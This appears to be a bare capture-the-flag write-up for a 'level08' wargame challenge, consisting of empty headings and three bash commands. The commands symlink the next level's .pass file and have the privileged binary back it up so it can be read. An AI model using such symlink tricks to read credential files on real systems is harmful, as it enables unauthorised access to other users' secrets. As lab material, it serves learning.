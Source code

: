 ## Brief

## Exploit

## Commands
 
```bash
ln -s ../level09/.pass test
./level08 test
cat ./backups/test
```